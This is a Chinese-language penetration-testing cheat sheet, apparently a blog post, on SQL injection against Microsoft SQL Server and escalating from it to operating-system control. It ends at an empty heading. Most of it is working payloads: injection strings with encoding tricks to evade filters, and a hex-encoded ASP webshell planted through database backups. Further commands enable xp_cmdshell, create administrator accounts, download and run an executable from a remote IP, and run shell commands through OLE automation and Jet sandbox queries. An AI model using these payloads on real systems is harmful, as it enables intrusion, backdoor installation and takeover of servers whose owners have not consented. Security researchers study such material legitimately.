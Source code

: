 
# [](#mssql-%E6%B3%A8%E5%85%A5%E4%B8%8E%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95%E6%95%B4%E7%90%86)MSSQL 注入与提权方法整理

## [](#1-sql-server-%E7%9B%B8%E5%85%B3%E5%9F%BA%E7%A1%80%E7%AE%80%E4%BB%8B)1 SQL Server 相关基础简介

### [](#11-%E9%BB%98%E8%AE%A4%E5%BA%93%E4%BB%8B%E7%BB%8D)1.1 默认库介绍

-   master - 用于记录所有 SQL Server 系统级别的信息，这些信息用于控制用户数据库和数据操作。
-   model - SQL Server 为用户数据库提供的样板，新的用户数据库都以 model 数据库为基础
-   msdb - 由 Enterprise Manager 和 Agent 使用，记录着任务计划信息、事件处理信息、数据备份及恢复信息、警告及异常信息。
-   tempdb - 它为临时表和其他临时工作提供了一个存储区。

信息

这里我们经常要打交道的库也就是 master，其中储存了所有数据库名与存储过程。类比于 MySQL 中的 `information_schema` 元数据库。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120143745.png-water_print](assets/1699408935-1795884a078e956735463af9b4d32284.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120143745.png-water_print")

以 master 库为例可以看到上面几个类别，其中视图表 `master.dbo.sysdatabases` 储存所有数据库名，其他数据库的视图则储存它本库的表名与列名。每一个库的视图表都有 `syscolumns` 存储着所有的字段，可编程性储存着我们的函数。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select name from master.dbo.sysdatabases;<br>``` |

查询所有数据库的名称。

### [](#12-%E5%AD%97%E6%AE%B5%E4%BB%8B%E7%BB%8D)1.2 字段介绍

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select top 1 name,xtype from sysobjects;<br>``` |

xtype 可以是下列对象类型中的一种：

-   C = CHECK 约束
-   D = 默认值或 DEFAULT 约束
-   F = FOREIGN KEY 约束
-   L = 日志
-   FN = 标量函数
-   IF = 内嵌表函数
-   P = 存储过程
-   PK = PRIMARY KEY 约束（类型是 K）
-   RF = 复制筛选存储过程
-   S = 系统表
-   TF = 表函数
-   TR = 触发器
-   U = 用户表
-   UQ = UNIQUE 约束（类型是 K）
-   V = 视图
-   X = 扩展存储过程

## [](#2-sql-server-%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86)2 SQL Server 信息收集

### [](#21-%E6%9D%83%E9%99%90%E5%88%A4%E6%96%AD)2.1 权限判断

SQL Server 内部按作用范围来分有三大主体:

-   Windows 级别主体
-   服务器级别主体
-   数据库级别主体

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210121092915.png-water_print](assets/1699408935-bc546370e50407020566fa9600e92547.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210121092915.png-water_print")

#### [](#211-%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%BA%A7%E5%88%AB)2.1.1 服务器级别

在微软的官方文档中可以看到， `IS_SRVROLEMEMBER ( 'role' [ , 'login' ] )` ，函数 role 的有效值是用户定义的服务器角色和以下固定服务器角色：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120145938.png-water_print](assets/1699408935-de1a1c1dd28667d6f6153e440f7c56bd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120145938.png-water_print")

返回类型：

| 返回值 | 描述  |
| --- | --- |
| 0   | login 不是 role 的成员。 |
| 1   | login 是 role 的成员。 |
| NULL | role 或 login 无效，或者没有查看角色成员身份的权限。 |

最终我们可以构造语句：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>and 1=(select is_srvrolemember('sysadmin'))<br>and 1=(select is_srvrolemember('serveradmin'))<br>and 1=(select is_srvrolemember('setupadmin'))<br>and 1=(select is_srvrolemember('securityadmin'))<br>and 1=(select is_srvrolemember('diskadmin'))<br>and 1=(select is_srvrolemember('bulkadmin'))<br>``` |

在 SQLMap 中使用 –is-dba 命令可以判断是否为管理员权限

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>select * from admin where id =1 AND 5560 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(113)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (IS_SRVROLEMEMBER(CHAR(115)+CHAR(121)+CHAR(115)+CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))=1) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)))<br>``` |

#### [](#212-%E6%95%B0%E6%8D%AE%E5%BA%93%E7%BA%A7%E5%88%AB%E7%9A%84%E8%A7%92%E8%89%B2)2.1.2 数据库级别的角色

`select IS_MEMBER('db_owner')`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120150401.png-water_print](assets/1699408935-8daf028f03501932227c8e8a85a88492.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120150401.png-water_print")

### [](#22-%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF)2.2 基本信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>@@version // 数据库版本<br>user  //获取当前数据库用户名<br>db_name() // 当前数据库名 其中db_name(N)可以来遍历其他数据库<br>;select user //查询是否支持多语句<br>``` |

### [](#23-%E5%88%A4%E6%96%AD%E7%AB%99%E5%BA%93%E5%88%86%E7%A6%BB)2.3 判断站库分离

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select * from info where id='1' and host_name()=@@servername;--'<br>``` |

最简单的方法，当然你可以调用 xp\_cmdshell 就可以通过 cmd 来判断。

通过简单的判断数据库版本，当前用户权限，我们就可以想下一步怎么去做，比如 2005 的 xp\_cmdshell 的权限一般是 system 而 2008 的权限一般是 `ntauthority\network service`

## [](#3-sql-server-%E8%AF%AD%E6%B3%95)3 SQL Server 语法

### [](#31-%E6%B3%A8%E9%87%8A%E7%AC%A6%E5%8F%B7)3.1 注释符号

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br>/*<br>-- <br>;%00<br>``` |

### [](#32-%E7%A9%BA%E7%99%BD%E5%AD%97%E7%AC%A6)3.2 空白字符

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br>01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20<br><br>/**/<br>``` |

### [](#33-%E8%BF%90%E7%AE%97%E7%AC%A6%E5%8F%B7)3.3 运算符号

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```fallback<br>+   加法运算<br>-   减法运算<br>*   乘法运算<br>/   除法运算，如果两个表达式值都是整数，那么结果只取整数值，小数值将略去<br>%   取模运算，返回两数相除后的余数<br><br>&   位与逻辑运算，从两个表达式中取对应的位。当且仅当输入表达式中两个位的值都为 1 时，结果中的位才被设置为 1，否则，结果中的位被设置为 0<br>\|   位或逻辑运算，从两个表达式中取对应的位。如果输入表达式中两个位只要有一个的值为 1 时，结果的位就被设置为 1，只有当两个位的值都为 0 时，结果中的位才被设置为 0<br>^   位异或运算，从两个表达式中取对应的位。如果输入表达式中两个位只有一个的值为 1 时，结果中的位就被设置为 1；只有当两个位的值都为 0 或 1 时，结果中的位才被设置为0<br><br>=   等于 <br><>  不等于<br>>   大于  <br>!=  不等于<br><   小于  <br>!<  不小于<br>>=  大于或等于   <br>!>  不大于<br><=  小于或等于<br><br>ALL 如果一组的比较都为 true，则比较结果为 true<br>AND 如果两个布尔表达式都为 true，则结果为 true；如果其中一个表达式为 false，则结果为 false<br>ANY 如果一组的比较中任何一个为 true，则结果为 true<br>BETWEEN 如果操作数在某个范围之内，那么结果为 true<br>EXISTS  如果子查询中包含了一些行，那么结果为 true<br>IN  如果操作数等于表达式列表中的一个，那么结果为 true<br>LIKE    如果操作数与某种模式相匹配，那么结果为 true<br>NOT 对任何其他布尔运算符的结果值取反<br>OR  如果两个布尔表达式中的任何一个为 true，那么结果为 true<br>SOME    如果在一组比较中，有些比较为 true，那么结果为 true<br>``` |

### [](#34-%E8%AF%AD%E6%B3%95%E5%AE%9A%E4%B9%89%E7%AC%A6%E5%8F%B7)3.4 语法定义符号

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```fallback<br>< > 尖括号，用于分隔字符串，字符串为语法元素的名称，SQL 语言的非终结符。<br><br>::= 定义操作符。用在生成规则中，分隔规则定义的元素和规则定义。 被定义的元素位于操作符的左边，规则定义位于操作符的右边。<br><br>[ ] 方括号表示规则中的可选元素。方括号中的规则部分可以明确指定也可以省略。<br><br>{ } 花括号聚集规则中的元素。在花括号中的规则部分必须明确指定。<br><br>() 括号是分组运算符<br>``` |

## [](#4-mssql-%E6%B3%A8%E5%85%A5)4 MSSQL 注入

### [](#41-%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)4.1 显错注入

#### [](#411-%E5%8E%9F%E7%90%86)4.1.1 原理

MSSQL 报错注入利用的就是显示或隐式转换来报错注入，比如以下就是典型的隐式转换

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>select * from admin where id =1 and (select user)>0--<br><br>select * from admin where id =1\|(select user)--<br><br>在将 nvarchar 值 'dbo' 转换成数据类型 int 时失败。<br>``` |

显示转换也就是利用函数来转换，我们经常用到的两个函数就是 cast 和 convert

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>select * from admin where id =1 (select CAST(USER as int))<br><br>select * from admin where id =1 (select convert(int,user))<br>``` |

**判断当前数据库：**

`id=1'and db_name()>0;--`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152616.png-water_print](assets/1699408935-9c537f52af6226b9c3bd363bcd205266.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152616.png-water_print")

**爆表名：**

`id=1' and 1=(select top 1 name from sysobjects where xtype='u' and name !='info');--`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152643.png-water_print](assets/1699408935-e0a516cb34c4d0f52d0b00f22301ebd5.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152643.png-water_print")

**爆列名：**

`id=1' and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'admin') and name<>'id');--`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152732.png-water_print](assets/1699408935-99e68becd8dd7aabe9a847f8e1f54d34.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152732.png-water_print")

**爆数据：**

`id=1' and 1=(select top 1 username from admin);--`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152807.png-water_print](assets/1699408935-2d09d632e3bf3cfdad46df60f372b3c2.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120152807.png-water_print")

#### [](#412-%E5%85%B6%E5%AE%83%E7%94%A8%E6%B3%95)4.1.2 其它用法

当然查询数据库的所有表还可以使用 `INFORMATION_SCHEMA.TABLES`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>select * from INFORMATION_SCHEMA.TABLES<br><br>select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'<br><br>id=1 and 1=(select top 1 table_name from information_schema.tables);--<br>``` |

要判断当前表名和列名，也可以使用 `having 1=1` 和 `group by`

`id=1 having 1=1`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120153503.png-water_print](assets/1699408935-5ede7308be8d3b679bc6c48707a8bcc6.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120153503.png-water_print")

**爆出当前表和字段：**

`id=1 group by info.id,info.name having 1=1`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120153547.png-water_print](assets/1699408935-4007b534e7fb0824de079c6934bcbb76.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120153547.png-water_print")

#### [](#413-%E7%AE%80%E5%8D%95%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87)4.1.3 简单注入绕过

这里引入一个 `declare` 函数，他是 mssql 声明局部变量的函数，我们经常用它来绕过 waf 对一些关键词的拦截

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select * from admin where id =1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a) --<br>``` |

declare 定义变量，set 设置变量值，exec 执行变量

变量的值是支持 hex 和 ascii 码的，当过滤引号我们就可以这么用把我们的语句编码一下

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>select * from admin where id =1;declare @s varchar(2000) set @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 exec(@s)--<br><br>select * from admin where id =1;declare @s varchar(2000) set @s= CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@s)--<br>``` |

### [](#42-%E7%9B%B2%E6%B3%A8)4.2 盲注

其实跟 mysql 大同小异无非就是分割字符串比较，但是 mssql 的盲注套路确实没那么多。

#### [](#421-%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8)4.2.1 布尔盲注

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109<br>``` |

#### [](#422-%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8)4.2.2 时间盲注

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--<br><br>id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--<br>``` |

### [](#42-%E8%81%94%E5%90%88%E6%B3%A8%E5%85%A5)4.2 联合注入

mssql 联合注入我们一般不使用数字占位，而是 null，因为使用数字占位可能会发生隐式转换

`id=1 union select null,name,pass from info`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120161528.png-water_print](assets/1699408935-a97988434f255884c912a399dac6f113.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120161528.png-water_print")

也可以利用如下方法：

`id=1 SELECT 1 UNION (select CAST(USER as int))`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120161612.png-water_print](assets/1699408935-51e080c70f25469316f61941aee16ab7.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120161612.png-water_print")

## [](#5-mssql-%E6%8F%90%E6%9D%83)5 MSSQL 提权

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120182207.png-water_print](assets/1699408935-011fdc3afb569af766ea34326f606912.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120182207.png-water_print")

### [](#51-%E5%A4%87%E4%BB%BD%E6%8B%BF-shell)5.1 备份拿 shell

备份拿 shell 也就涉及到了权限的问题，SA 权限不用说没有降权的话基本能做任何事情了，它数据库权限是 `db_owner`，当然其他用户如果也拥有 `db_owner` 基本也可以通过备份拿下 shell，但是在设置目录权限后就不行了。

#### [](#511-%E8%B7%AF%E5%BE%84%E7%9A%84%E5%AF%BB%E6%89%BE)5.1.1 路径的寻找

需要路径的我们一般有几个思路：

1.  报错寻找
2.  字典
3.  旁站信息收集
4.  调用储存过程来搜索
5.  读配置文件

这里我们着重讨论一下储存过程也就是这些函数来找我们的网站根目录。一般我们可以用 `xp_cmdshell`、`xp_dirtree`、`xp_dirtree`、`xp_subdirs`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>execute master..xp_dirtree 'c:'       //列出所有 c:\ 文件和目录,子目录 <br>execute master..xp_dirtree 'c:',1     //只列 c:\ 文件夹 <br>execute master..xp_dirtree 'c:',1,1   //列 c:\ 文件夹加文件 <br>``` |

通过执行 `xp_dirtree` 返回我们传入的参数，如果没有回显的话，可以这样创建一个临时的表插入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>id=1;CREATE TABLE tmp (dir varchar(8000),num int,num1 int);<br><br>id=1;insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1<br>``` |

`xp_cmdshell` 寻找路径：

这个 `xp_cmdshell` 找起来更加方便我们调用cmd的命令去搜索，比如我的web目录有个1.aspx

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>C:\Users\Gee>for /r c:\ %i in (1*.aspx) do @echo %i<br>c:\www\1.aspx<br>``` |

所以只需要建立一个表，存在一个 char 字段就可以了。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>id=1;CREATE TABLE cmdtmp (dir varchar(8000));<br><br>id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'<br>``` |

信息

SQL Server 阻止了对组件 `xp_cmdshell` 的过程 `sys.xp_cmdshell` 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp\_configure 启用。

如果遇到 xp\_cmdshell 不能调用，报错，可用如下命令恢复：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>// 允许修改高级参数 <br>;EXEC sp_configure 'show advanced options',1;RECONFIGURE;<br><br>// 打开xp_cmdshell 扩展<br>;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;--<br>``` |

#### [](#512-%E5%B7%AE%E5%BC%82%E5%A4%87%E4%BB%BD)5.1.2 差异备份

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```sql<br>// 完整备份一次(保存位置可以改)<br>backup database 库名 to disk = 'c:\bak.bak';--<br><br>create table [dbo].[test] ([cmd] [image]);<br><br>// 创建表 cmd 并插入一句话木马<br>insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)<br><br>// 进行差异备份<br>backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--<br>``` |

差异备份有多种情况可能不成功，一般就是目录权限的问题，第一次备份的目录是否可能没有权限，第二次备份到网站目录是否有权限，所以一般不要直接备份到 c 盘根目录

当过滤了特殊的字符比如单引号，或者路径符号都可以使用前面提到的定义局部变量来执行。

#### [](#513-log-%E5%A4%87%E4%BB%BD)5.1.3 LOG 备份

> LOG 备份需要先把指定的数据库激活为还原模式，所以需要执行`alter database XXX set RECOVERY FUL`，而差异备份不需要，所以只有这条语句的就是 LOG 备份

LOG 备份的要求是目标机器的数据库备份过，而且选择恢复模式得是完整模式，但是使用 log 备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>alter database 库名 set RECOVERY FULL <br><br>create table cmd (a image) <br><br>backup log 库名 to disk = 'c:\xxx' with init <br><br>insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) <br><br>backup log 库名 to disk = 'c:\xxx\2.asp'<br>``` |

相对于差异备份，log 备份的好处就是备份出来的 webshell 的文件大小非常的小。

### [](#52-xp_cmdshell)5.2 xp\_cmdshell

-   测试 xp\_cmdshell 是否可以执行
    
    -   `exec master..xp_cmdshell 'ver'`
-   添加管理员用户
    
    -   `exec master.dbo.xp_cmdshell 'net user q 123456q /add'`
    -   `exec master.dbo.xp_cmdshell 'net localgroup administrators q /add'`
-   远程下载文件，上马
    

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>exec master.dbo.xp_cmdshell 'cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe';<br><br>exec master.dbo.xp_cmdshell 'cd c:\www & file.exe';<br>``` |

### [](#53-sp_oacreate)5.3 sp\_oacreate

当 xp\_cmdshell 被删除可以使用这个来提权试试，恢复 sp\_oacreate

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>EXEC sp_configure 'show advanced options', 1;  <br>RECONFIGURE WITH OVERRIDE;  <br>EXEC sp_configure 'Ole Automation Procedures', 1;  <br>RECONFIGURE WITH OVERRIDE;  <br>EXEC sp_configure 'show advanced options', 0;<br>``` |

sp\_oacreate 是一个非常危险的存储过程可以删除、复制、移动文件。还能配合 sp\_oamethod 来写文件执行 cmd。

有以下几种利用思路：

-   调用 cmd 来执行命令

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```sql<br>wscript.shell 执行命令<br><br>declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'<br><br><br><br>Shell.Application 执行命令<br><br>declare @o int<br>exec sp_oacreate 'Shell.Application', @o out<br>exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';<br>``` |

-   写入启动项

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```sql<br>declare @sp_passwordxieo int, @f int, @t int, @ret int<br>exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out<br>exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';<br>``` |

### [](#54-%E6%B2%99%E7%9B%92%E6%8F%90%E6%9D%83)5.4 沙盒提权

沙盒模式是数据库的一种安全功能。在沙盒模式下，只对控件和字段属性中的安全且不含恶意代码的表达式求值。如果表达式不使用可能以某种方式损坏数据的函数或属性，则可认为它是安全的。

使用场景：无法执行命令时，`xp_regwrite` 可用(使用条件)

-   开启沙盒模式：

`exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1`

SandBoxMode参数含义（默认是2）

`0`：在任何所有者中禁止启用安全模式

`1` ：为仅在允许范围内

`2` ：必须在access模式下

`3`：完全开启

-   利用 jet.oledb 执行系统命令添加用户

`select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c net user q 123456q /add")')`

-   将 q 用户添加至管理员组

`select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c net localgroup administrators q /add")')`

### [](#55-%E5%88%A9%E7%94%A8-mssql-%E6%A8%A1%E6%8B%9F%E7%99%BB%E5%BD%95%E6%8F%90%E6%9D%83)5.5 利用 mssql 模拟登录提权

开发者有时为了满足某种需求，允许其他登录用户模拟高权限的用户，对于开发来说，一个再简单不过的功能。虽然严格意义上这不算个漏洞，但是这种配置不当一般可以用来提权。

#### [](#551-%E8%B5%8B%E4%BA%88%E7%94%A8%E6%88%B7-myuser1-%E6%9D%83%E9%99%90%E6%9D%A5%E6%A8%A1%E6%8B%9F-myuser2-myuser3%E5%8F%8Asa)5.5.1 赋予用户 MyUser1 权限来模拟 MyUser2, MyUser3,及sa

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>USE master;<br>GRANT IMPERSONATE ON LOGIN::sa to [MyUser1];<br>GRANT IMPERSONATE ON LOGIN::MyUser2 to [MyUser1];<br>GRANT IMPERSONATE ON LOGIN::MyUser3 to [MyUser1];<br>GO<br>``` |

#### [](#552--%E6%9F%A5%E6%89%BE%E5%8F%AF%E4%BB%A5%E6%A8%A1%E6%8B%9F%E7%99%BB%E5%BD%95%E7%9A%84%E7%94%A8%E6%88%B7)5.5.2 查找可以模拟登录的用户

默认情况下，系统管理员可以模拟任何人，但是正常登录必须分配权限来模拟特定的用户，使用 MyUser1 用户登录，打开新建查询，执行下面语句查询那些用户可以用来模拟登录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>SELECT distinct b.name<br>FROM sys.server_permissions a<br>INNER JOIN sys.server_principals b<br>ON a.grantor_principal_id = b.principal_id<br>WHERE a.permission_name = 'IMPERSONATE'<br>``` |

这里我们可以看到 MyUser1 用户可以模拟登录 sa, MyUser2, MyUser2 用户，接下来就是模拟登录 sa 来获取 sysadmin 权限了

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120195250.png-water_print](assets/1699408935-88240c6df0a35f5d3971f779aaba2a65.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120195250.png-water_print")

#### [](#553--%E6%A8%A1%E6%8B%9F-sql-server-%E7%94%A8%E6%88%B7%E7%99%BB%E9%99%86)5.5.3 模拟 SQL Server 用户登陆

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```sql<br>-- 验证是否为sysadmin权限<br>SELECT SYSTEM_USER<br>SELECT IS_SRVROLEMEMBER('sysadmin')<br>-- 模拟sa登录<br>EXECUTE AS LOGIN = 'sa'<br>-- 验证是否为sysadmin权限<br>SELECT SYSTEM_USER<br>SELECT IS_SRVROLEMEMBER('sysadmin')<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120195349.png-water_print](assets/1699408935-e5dea19362e0ad9f5c249e04b0241fee.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210120195349.png-water_print")

#### [](#534-ps-%E5%B7%A5%E5%85%B7%E5%8C%96)5.3.4 PS 工具化

